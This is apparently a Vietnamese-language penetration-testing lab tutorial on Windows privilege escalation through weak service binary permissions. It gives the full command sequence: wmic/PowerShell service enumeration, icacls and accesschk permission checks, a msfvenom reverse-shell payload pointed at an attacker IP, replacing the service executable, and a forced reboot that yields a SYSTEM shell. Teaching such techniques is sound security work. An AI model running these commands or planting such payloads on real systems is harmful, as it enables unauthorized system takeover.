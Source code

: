 tôi đã có được chỗ đứng trên máy mục tiêu với tư cách là người dùng tiêu chuẩn bob

Hunting for Non-Standard Services

Có nhiều cách để chúng ta có thể tìm kiếm các dịch vụ thực thi từ các thư mục có quyền yếu; tuy nhiên, để tìm kiếm các quyền truy cập tệp yếu, trước tiên chúng tôi phải tìm kiếm mọi dịch vụ đang thực thi từ các vị trí không chuẩn trên hệ thống. Lý do cho điều này là vì các dịch vụ thực thi từ các vị trí không chuẩn sẽ tạo cơ hội tốt nhất cho chúng tôi tìm ra các quyền dịch vụ yếu.
chúng ta có thể sử dụng lệnh wmic sau để tìm bất kỳ dịch vụ nào đang thực thi từ các vị trí không chuẩn:

```
wmic service get name,displayname,startmode,pathname | findstr /i /v "C:\Windows\\"
```

Trong lệnh trên, tôi đã sử dụng wmic để truy vấn các dịch vụ và chỉ lấy các trường mà chúng tôi quan tâm. Chúng tôi cũng sử dụng option /v để bỏ qua mọi kết quả từ các thư mục bắt đầu bằng C:\Windows vì ta có thể sẽ không có quyền ghi vào các thư mục đó.
Ngoài ra, lệnh tương đương từ lời nhắc PowerShell sẽ là:

```
Get-WmiObject -class Win32_Service -Property Name, DisplayName, PathName, StartMode | Where { $_.PathName -notlike "C:\Windows*" } | select Name,DisplayName,StartMode,PathName
```

Điều này cho chúng ta biết rằng có một dịch vụ có tên Juggernaut bắt đầu bằng cách thực thi tệp nhị phân C:\Program Files\Juggernaut\Juggernaut.exe và dịch vụ này là dịch vụ tự động khởi động.
Trước đó chúng tôi đã liệt kê rằng chúng tôi đã bật SeShutdownPrivilege, điều đó có nghĩa là chúng tôi sẽ có thể “khởi động lại” chương trình bằng cách khởi động lại máy.

Săn lùng quyền đối với tệp dịch vụ yếu

Liệt kê các quyền của tệp dịch vụ yếu – icacls

Sau khi tìm thấy một dịch vụ thú vị (không phải mặc định) thực thi từ một vị trí không chuẩn, chúng tôi cần tìm hiểu xem liệu chúng tôi có thể khai thác dịch vụ này hay không bằng cách kiểm tra quyền của thư mục và tệp.
Để thực hiện việc này, chúng ta có thể sử dụng lệnh icacls , đây là lệnh tích hợp được sử dụng để kiểm tra quyền của ACL thư mục và tệp.
Các quyền mà chúng tôi đang tìm kiếm trên thư mục là một trong ba quyền sau:

- (F) Kiểm soát hoàn toàn
- (M) Sửa đổi
- (W) Viết
  Các quyền của người dùng / nhóm mà chúng tôi đang tìm kiếm như sau:
- Người dùng cụ thể mà chúng tôi hiện đang đăng nhập với tên (%USERNAME%)
- Authenticated Users
- Everyone
- BUILTIN\Users
- NT AUTHORITY\INTERACTIVE
  Để xem các quyền trên thư mục C:\Program Files\Juggernaut, chúng ta có thể sử dụng lệnh sau:

```
icacls "C:\Program Files\Juggernaut"
```

Điều này cho thấy BUILTIN\Users có (F) Toàn quyền kiểm soát thư mục này. Sau đó, điều này có thể có nghĩa là chúng tôi cũng sẽ có Toàn quyền kiểm soát nhị phân dịch vụ vì nó đã kế thừa các quyền của thư mục. Chúng tôi có thể xác nhận điều này bằng cách kiểm tra nhị phân bằng icacls, như vậy:

```
icacls "C:\Program Files\Juggernaut\Juggernaut.exe"
```

Điều này có nghĩa là tôi có thể toàn quyền kiểm soát dịch vụ này bằng cách thay thế tệp nhị phân ban đầu bằng thứ gì đó độc hại.

Liệt kê các quyền của tệp dịch vụ yếu – Accesschk

Trước khi tải bất kỳ công cụ nào lên nạn nhân, chúng ta cần liệt kê kiến trúc để có thể chuyển giao các công cụ phù hợp cho công việc. Chúng ta có thể thực hiện việc này bằng lệnh systeminfo , như sau:

```
systeminfo | findstr /B /C:"Host Name" /C:"OS Name" /C:"OS Version" /C:"System Type" /C:"Hotfix(s)"
```

Ở đây chúng ta có thể thấy máy này đang chạy Windows 10 Pro – Build 18362 – Version 1903 và có kiến trúc x64.
Vì chúng tôi đã liệt kê rằng đây là vòm x64 nên chúng tôi có thể tiến hành chuyển bản sao của accesschk64.exe cho nạn nhân
Bắt đầu với quyền trên thư mục, chúng ta có thể sử dụng lệnh sau:

```
.\accesschk64.exe -wvud "C:\Program Files\Juggernaut" -accepteula
```

Ở đây chúng ta có thể thấy rất giống với đầu ra icacls mà nhóm BUILTIN\Users có FILE_FULL_ACCESS , có nghĩa là “Toàn quyền kiểm soát”.
Chúng ta cũng có thể kiểm tra tệp thực thi bằng cách bỏ cờ '-d' rồi thêm tệp thực thi vào đường dẫn tệp, như sau:

```
.\accesschk64.exe -wvu "C:\Program Files\Juggernaut\Juggernaut.exe" -accepteula
```

Bây giờ chúng ta đã biết cách liệt kê các quyền của thư mục yếu bằng cách sử dụng các kỹ thuật thủ công và sử dụng Accesschk, hãy xem cách chúng ta có thể tìm kiếm các dịch vụ không chuẩn và các quyền đối với tệp dịch vụ yếu cùng một lúc bằng các công cụ.

winPEAS

Vì chúng tôi đã chuyển winPEAS cho nạn nhân nên chúng tôi có thể tiến hành quét toàn bộ (không có công tắc) và sau đó xem xét đầu ra để tìm xem có dịch vụ nào dễ bị tấn công do quyền truy cập tệp dịch vụ yếu hay không.
winPEAS có rất nhiều đầu ra, vì vậy chìa khóa để không bị lạc là biết thông tin nhất định sẽ nằm ở đâu. Đối với các quyền dịch vụ yếu, chúng tôi muốn kiểm tra danh mục Thông tin dịch vụ . Điều này sẽ cung cấp cho chúng tôi thông tin về tên dịch vụ, đường dẫn đến tệp nhị phân dịch vụ và loại chế độ bắt đầu.

Điều này cho chúng tôi biết mọi thứ chúng tôi cần biết để khai thác dịch vụ này. Nó cho thấy rằng chúng tôi có quyền ghi trên tệp thực thi và chương trình này là chương trình tự động khởi động.
Do đây là một lỗ hổng dịch vụ yếu nên winPEAS cũng sẽ thực sự gợi ý về lỗ hổng này trong phần Thông tin ứng dụng .

Khai thác quyền của tệp dịch vụ yếu để lấy SYSTEM Shell

Bây giờ chúng ta đã thấy nhiều cách để tìm kiếm các dịch vụ không chuẩn và liệt kê các quyền đối với tệp dịch vụ, tất cả những gì còn lại cần làm là khai thác dịch vụ để lấy shell HỆ THỐNG.
Để khai thác điều này, chúng ta sẽ cần tạo một khai thác và đặt tên giống với tệp nhị phân dịch vụ ban đầu. Trong trường hợp này, tên tải trọng của chúng tôi sẽ là Juggernaut.exe.
Sau khi liệt kê rằng hệ thống này có vòm x64 và dịch vụ mà chúng tôi tìm thấy nằm trong thư mục “Tệp chương trình”, chúng tôi có thể dễ dàng tăng tải trọng 64 bit bằng cách sử dụng msfvenom và lệnh sau:

```
msfvenom -p windows/x64/shell_reverse_tcp LPORT=443 LHOST=172.16.1.30 -a x64 --platform Windows -f exe -o Juggernaut.exe
```

Nếu chúng tôi thấy dịch vụ này chạy từ thư mục Tệp chương trình (x86), chúng tôi có thể muốn xem xét việc tạo tệp thực thi 32 bit vì dịch vụ 64 bit có thể không hoạt động cho dịch vụ.
Với “dịch vụ” mới sáng bóng có thể thực thi được của chúng tôi đã sẵn sàng hoạt động, chúng tôi cần chuyển nó cho nạn nhân.

Trọng tải của chúng tôi hiện đang ở trên nạn nhân; tuy nhiên, trước khi di chuyển tệp vào thư mục C:\Program Files\Juggernaut, chúng ta cần sao lưu tệp nhị phân gốc,

```
move "C:\Program Files\Juggernaut\Juggernaut.exe" "C:\Program Files\Juggernaut\Juggernaut.exe.BAK"
```

Tuyệt vời! Tệp nhị phân ban đầu đã được sao lưu, bây giờ tất cả những gì chúng ta cần làm là chuyển tải trọng của mình sang thư mục Juggernaut và khởi động lại hệ thống.
Nhưng trước tiên, chúng ta cần khởi động trình nghe netcat trên máy tấn công của mình trên cổng 443 để bắt shell SYSTEM.

Được rồi, hãy kết thúc chuyện này! Sử dụng hai lệnh sau, chúng tôi sẽ đặt tải trọng của mình vào thư mục Juggernaut và sau đó khởi động lại máy.

```
move C:\temp\Juggernaut.exe "C:\Program Files\Juggernaut"

shutdown /r /t 0 /f
```

Chúng tôi thấy rằng chúng tôi đã được khởi động từ hệ vỏ hiện tại, điều đó có nghĩa là hệ thống đã khởi động lại; và sau khoảng 20 giây, chúng tôi nhận được shell HỆ THỐNG trên trình nghe của mình!
